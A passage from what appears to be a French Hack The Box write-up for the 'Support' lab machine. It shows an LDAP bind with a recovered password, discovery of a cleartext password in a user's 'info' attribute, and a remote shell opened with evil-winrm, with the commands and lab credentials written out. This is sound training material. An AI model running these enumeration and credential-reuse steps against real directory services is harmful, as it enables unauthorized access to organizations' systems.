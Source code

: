 <div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-key mr-2 text-green-500"></i>
        Mot de passe LDAP : <code>nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz</code>
    </p>
</div>


## 🧩 Phase 4 — Connexion LDAP

Configuration hosts :

```bash
echo '10.129.178.26 support.htb' | sudo tee -a /etc/hosts
```

Connexion LDAP :

```bash
ldapsearch -h support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Connexion LDAP réussie ! Énumération des objets Active Directory possible.
    </p>
</div>


## 🧍 Phase 5 — Découverte du compte support

Dans CN=Users, l'objet support contient :

```
info: Ironside47pleasure40Watchful
memberOf: Remote Management Users
```

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-exclamation-triangle mr-2 text-amber-500"></i>
        <strong>Mot de passe en clair trouvé !</strong> Le groupe Remote Management Users permet la connexion WinRM.
    </p>
</div>


## 💻 Phase 6 — Accès initial WinRM

Connexion :

```bash
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```
